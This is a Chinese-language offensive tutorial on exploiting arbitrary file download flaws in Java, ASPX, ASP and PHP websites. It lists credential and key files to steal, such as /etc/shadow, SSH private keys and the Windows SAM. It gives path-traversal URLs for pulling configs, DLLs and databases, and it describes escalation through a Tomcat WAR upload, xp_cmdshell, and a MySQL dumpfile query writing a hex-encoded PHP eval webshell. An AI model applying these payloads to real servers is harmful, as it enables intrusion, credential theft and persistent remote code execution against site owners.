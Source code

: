 # 任意文件下载漏洞

几种常见架构的利用过程：
因为文件下载漏洞不像其他漏洞那样有通用的利用方法和相关工具，所以漏洞的
利用过程与具体的网站架构关系很大，需要了解常见的网站的架构，如网站的配
置文件位置等信息，下面分别介绍此漏洞在常见几种网站中利用方法。
• java站点
• aspx站点
• asp站点
• php站点

## windows 敏感文件

敏感文件——Windows：
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息

## linux敏感文件

敏感文件——Linux：
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts
/etc/passwd
/etc/shadow
/etc/my.cnf /etc/httpd/conf/httpd.conf
/root/.bash_history
/root/.mysql_history
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts
/porc/config.gz

## java站点

### 1）下载tomcat-users.xml
tomcat-users.xml 在conf文件下，尝试直接使用下载点下载该文件。
因此构造url类似如下形式:
http://www.test.cn/down.jsp?filename=tomcatusers.xml&path=C:/Program%20Files/Apache%20Software%20Foundation/Tomcat%206.0/conf/tomcat-users.xml
从下载到的tomcat-users.xml文件中可以获得tomcat控制台的登录账号和密码，
从而尝试登录manager/html，上传一个war文件，就可以获得webshell。

### 2）下载web.xml
首先下载网站的配置文件jsp的配置文件放在根目录WEB-INF/Web.xml下(一般都
有很多内容,有时含有数据库连接用户名和密码等关键信息)
访问:
http://test/file.do?method=downFile&fileName=../WEB-INF/Web.xml
获得web.xml后，我们可以获取数据库连接凭据、web站点所安装的组建等信息，
通过对这些内容的分析，来决定下一步的行动。
如尝试连接数据库、寻找安装组件的已知漏洞等。

## aspx站点

### 1）利用sql server渗透
对于aspx站点一般后台都是sql server数据库，因此利用该漏洞的最简单的方法
是直接获得数据库密码，直接登录数据库，利用sql server完成渗透。
首先确定网站根目录下载web.config文件，aspx站点用根目录下的web.config文
件保存配置信息。
尝试确定根目录:
http://www.test.org/DownLoadFileLow.aspx?FileName=../web.config
http://www.test.org/DownLoadFileLow.aspx?FileName=../../web.config
打开配置文件找到连接数据库项，尝试连接mysql数据库，sa权限的话直接开启
xp_cmdshell，获得system权限。
非sa权限可以通过差异备份等方式，获得webshell。

### 2）下载dll文件

首先下载DownLoad.aspx文件，主要是想查看这个aspx站点是否将源代码放到dll文件，这样的
话就可以直接下载dll获得源代码。
尝试下载: http://www.test.com.cn/DownLoad.aspx?fileName=../../DownLoad.aspx
在此尝试下载对应的DownLoad.aspx.cs文件
http://www.test.com.cn/DownLoad.aspx?fileName=../../DownLoad.aspx.cs
失败，说明本站点的源代码放到dll文件中，并且DownLoad.aspx对应的源代码是
xkcms.webForm.DownLoad，现在主要来猜解一下dll文件名，由这个命令空间
xkcms.webForm.DownLoad可以知道DownLoad不是，只能一个一个猜测。
http://www.test.com.cn/DownLoad.aspx?fileName=../../bin/xkcms.dll
http://www.test.com.cn/DownLoad.aspx?fileName=../../bin/webForm.dll
猜测成功，dll是被编译过，直接使用.net reflector工具打开编译后的dll文件，即可获得站点源码，
接下来就是通过源码审计，尝试发现更多可利用的漏洞。

## asp站点

一般的asp站点都是access数据库（连接sql server 直接可以参考aspx站点的利
用方法）。而access数据库可以直接下载，因此利用该漏洞比较简便的方法就是
直接下载access数据库，找到管理员密码登陆后台，利用后台的上传功能，上传
shell.
确定站点根目录:
http://www.testcn/GraduateSchool/dlsd/download.asp?filename=../../GraduateS
chool/dlsd/download.asp
下一步，找到网站与数据库操作的动态页面，动态页面中一般使用include包含
连接数据库的配置文件。
找到后台登陆入口
http://www.testcn/jianshen/F89A1/ Admin_login.asp

下载该登陆界面:
http://www.testcn/GraduateSchool/dlsd/download.asp?filename=../../ jianshen/F89A1/
Admin_login.asp
打开下载后文件，可以确定数据库连接文件在inc/conn.asp中，再下载该文件
http://www.testcn/GraduateSchool/dlsd/download.asp?filename=../../ jianshen/F89A1/
inc/conn.asp
打开该文件，可以看到数据库路径。
http://www.testcn/jianshen/database/adsfkldfogowerjnokfdslwejhdfsjhk.mdb
直接下载失败。应该是做了限制。使用下载点下载
http://www.testcn/GraduateSchool/dlsd/download.asp?filename=../../
jianshen/database/adsfkldfogowerjnokfdslwejhdfsjhk.mdb
打开数据库，获得管理员用户名和密码(密码md5加密)，破解md5，登录后台，尝试上传shell。

## php站点

php一般是mysql数据库，一般mysql数据库禁止远程连接，但是有些站点会使用
使用phpMyAdmin进行管理。
下载数据库配置文件：
www.test.edu.tw/download.php?filename=../conf/config.php&dir=/&title=config.
php
下载获得mysql数据库的用户名和密码是root权限
直接使用phpMyAdmin登录，然后使用mysql导出文件功能导出一句话即可：
select 0x3C3F706870206576616C28245F504F53545B636D645D293F3E into
dumpfile '/home/webadm/public_html/app/test.php'